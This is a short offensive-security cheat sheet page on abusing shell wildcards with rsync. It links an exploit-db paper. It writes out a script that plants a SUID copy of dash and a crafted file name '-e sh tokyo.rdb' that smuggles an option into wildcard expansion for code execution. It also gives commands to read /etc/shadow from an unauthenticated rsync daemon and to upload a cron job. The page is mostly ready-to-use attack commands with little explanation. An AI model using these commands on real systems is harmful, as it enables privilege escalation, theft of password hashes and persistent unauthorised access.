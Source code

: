 ```yaml
---
icon: cards
---
```


# Abusing Wildcards

{% embed url="https://www.exploit-db.com/papers/33930" %}

<details>

<summary><mark style="color:orange;"><strong><code>rsync</code></strong></mark> </summary>

{% hint style="info" %}
<mark style="color:red;">**`Arbitrary Code Execution`**</mark>

{% code title="Create the reverse shell:" overflow="wrap" %}
```sh
echo -e '#!/bin/sh\ncp /bin/dash /var/tmp/tokyo\nchmod 4755 /var/tmp/tokyo' > tokyo.rdb
```
{% endcode %}

* <mark style="color:purple;">Then create the vulnerable file to invoke the shell:</mark>

{% code overflow="wrap" %}
```sh
touch -- '-e sh tokyo.rdb'
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Sometimes it may be configured such that a password is not required`**</mark>

{% code title="Arbitrary File Read" overflow="wrap" %}
```sh
rsync -a rsync://backup:873/etc/shadow 
```
{% endcode %}

{% code title="Arbitrary File Upload" overflow="wrap" %}
```sh
rsync -avp clean rsync://backup:873/src/etc/cron.d/clean
```
{% endcode %}
{% endhint %}

</details>
